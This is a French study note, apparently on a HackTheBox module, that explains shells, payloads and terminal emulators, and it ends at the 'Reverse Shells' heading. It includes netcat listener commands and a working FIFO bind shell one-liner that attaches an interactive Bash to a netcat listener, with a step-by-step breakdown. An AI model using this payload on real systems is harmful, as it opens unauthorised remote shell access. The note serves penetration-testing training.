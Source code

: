 ```yaml
---
title: Shells & Payloads
description: 
published: true
date: 2025-05-08T14:49:27.174Z
tags: htb, module
editor: markdown
dateCreated: 2025-05-04T16:19:33.360Z
---
```


# Shells & Payloads

Date de complétion: XX/XX/XXXX

# Shells Jack Us In, Payloads Deliver Us Shells

Un shell est un programme qui fournit à un utilisateur une interface où entrer des instructions et voir la sortie texte. Les shell les plus connus étant Bash, Zsh, PowerShell ou encore cmd.

## Why Get a Shell?

Le shell permet un accès direct au système d'exploitation, aux commandes système et au système de fichiers. Une fois que nous avons un shell, nous pouvons rechercher des vecteurs d'élévation de privilèges, de pivotement, de transfert de fichiers, et plus encore. Sans un shell, nos actions sur une machine cible sont limitées.

Avoir un shell permet aussi de maintenir une persistance sur le système, offrant ainsi plus de temps pour travailler et facilitant l'utilisation des outils d'attaque, l'exfiltration de données, et la documentation de l'attaque. De plus, l'accès au shell en ligne de commande (CLI) est plus discret que l'accès à un shell graphique via VNC ou RDP. Les interfaces en ligne de commande sont plus rapides, plus difficiles à détecter et plus faciles à automatiser.

Le terme de shell possède plusieurs perspectives:

| **Perspective** | **Description**                                                                                                                                                          |
| --------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| **Général**     | Environnement en ligne de commande utilisé pour administrer des tâches sur un PC (ex : Bash, PowerShell).                                                                |
| **Sécurité**    | Un shell peut être obtenu en exploitant une vulnérabilité pour obtenir un accès interactif à un hôte (ex: EternalBlue).                                                  |
| **Web**         | Un shell web exploite des vulnérabilités, comme le téléchargement d'un fichier ou script, pour permettre à l'attaquant de donner des instructions via des requêtes HTTP. |

## Payloads Deliver us Shells

Le terme "payload" peut être défini de différentes manières:

- Réseau : La partie contenant les données d'un paquet.
- Général: La partie d'un jeu d'instructions qui définit l'action à entreprendre.
- Programmation: La portion de données transportée par une instruction dans un langage de programmation.
- Sécurité: Le code créé pour exploiter une vulnérabilité dans un système informatique, incluant différents types de malwares.

# Anatomy of a Shell

Chaque système d'exploitation dispose d'un ou plusieurs shell. Pour intéragir avec un shell il faut utiliser un programme appellé émulateur de terminal (Terminal Emulator).

Voici quelques émulateurs de terminaux:

| **Émulateur de terminal** | **Système d'exploitation** |
| ------------------------- | -------------------------- |
| Windows Terminal          | Windows                    |
| cmder                     | Windows                    |
| PuTTY                     | Windows                    |
| kitty                     | Windows, Linux et MacOS    |
| Alacritty                 | Windows, Linux et MacOS    |
| xterm                     | Linux                      |
| GNOME Terminal            | Linux                      |
| MATE Terminal             | Linux                      |
| Konsole                   | Linux                      |
| Terminal                  | MacOS                      |
| iTerm2                    | MacOS                      |

Cette liste ne recense pas tous les émulateurs de terminal existants, mais elle présente certains des plus utilisés.
Beaucoup étant open source, il est possible de les installer sur d'autres systèmes d'exploitation que ceux prévus à l'origine. Le choix d’un émulateur de terminal dépend avant tout des préférences personnelles et du style de travail.
Sur les machines cibles, l’émulateur disponible dépendra généralement de celui intégré nativement au système.

## Command Language Interpreters

Un interpréteur de langage de commande (Command Language Interpreter) traduit en temps réel les instructions données par l'utilisateur pour les transmettre au système d'exploitation. Une interface en ligne de commande (CLI) fait donc référence au système d’exploitation, l’émulateur de terminal et l’interpréteur de commandes.

Il en existe plusieurs types, aussi appelés langages de script shell (shell scripting languages) ou interpréteurs de commandes et de scripts (Command and Scripting interpreters).

Connaître l’interpréteur utilisé sur un système donné nous aide aussi à savoir quelles commandes et quels scripts employer.

## Hands-on with Terminal Emulators and Shells

Dès l'ouverture de l'application MATE Terminal, celle-ci s'est ouverte avec un interpréteur de commandes préconfiguré.
Le symbole `$`, visible dans l'invite de commande, indique l'utilisation probable de Bash (ou d’un shell similaire comme Ksh ou POSIX).
Lorsque du texte aléatoire est saisi, Bash répond qu’il ne reconnaît pas la commande, ce qui montre que chaque interpréteur a ses propres commandes.

Une autre manière d’identifier l’interpréteur utilisé est de consulter les processus en cours d'exécution sur la machine avec `ps` ou de regarder la variable d'environnement `SHELL`.

Il est aussi possible d'ouvrir PowerShell avec l'application MATE Terminal, Cela montre qu'il est possible d'utiliser des interpréteurs de commandes différents pour un émulateur de terminal.

# Bind Shells

Dans de nombreux cas, l’objectif est d’obtenir un accès à un shell sur un système local ou distant.
Pour cela, on utilise le l'émulateur de terminal sur la machine attaquante pour controller le système distant à travers son shell. Cela est le plus souvent effectué via un Bind/Reverse shell.

## What Is It?

Avec un Bind Shell, le système cible écoute les connexions entrantes.

Cela peut poser des problèmes:

- Le listener doit être démarré
- Des règles strictes de pare-feu et du NAT en bordure de réseau, ce qui implique qu’il faut déjà être sur le réseau interne pour contourner ces protections.
- Les Pare-feu logiciels peuvent bloquer rles connexions entrantes.

## Practicing with GNU Netcat

Démarrer le listener pour écouter sur le port 7777.

```
nc -lvnp 7777
```

Établir une session TCP et envoyer un message.

```
nc -nv <ip> 7777
<message>
```

## Establishing a Basic Bind Shell with Netcat

Après avoir vu comment envoyer du texte entre le client et le serveur, nous allons voir comment servir un shell pour établir un vrai Bind Shell.

Exemple pour lier un shell Bash à la session TCP avec nc et un canal nommé FIFO:

```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <ip cible> <port cible> > /tmp/f
```

1. **`rm -f /tmp/f`**
   Supprime le fichier `/tmp/f` s’il existe déjà.

2. **`mkfifo /tmp/f`**
   Crée un pipe nommé (FIFO) pour permettre la communication entre processus.

3. **`cat /tmp/f | /bin/bash -i`**
   Envoie les commandes lues du pipe à un shell interactif Bash.

4. **`2>&1`**
   Redirige les erreurs vers la sortie standard pour tout récupérer.

5. **`| nc -l 10.129.41.200 7777`**
   Envoie la sortie du shell à Netcat, qui écoute sur l’IP et le port donnés.

6. **`> /tmp/f`**
   Redirige ce que Netcat reçoit vers le pipe.

La commande ci-dessu est donc considérée comme le payload.

Nous avons établi avec succès une session bind shell. Cela a été réalisé sans aucune mesure de sécurité en place (comme les routeurs avec NAT, pare-feux matériels, WAF, IDS/IPS, pare-feux système, antivirus, ou mécanismes d'authentification).

Il ne faut pas oublier qu'il est plus facile de se défendre face à un Bind Shell puisque les connexions entrantes sont plus détectables.

# Reverse Shells
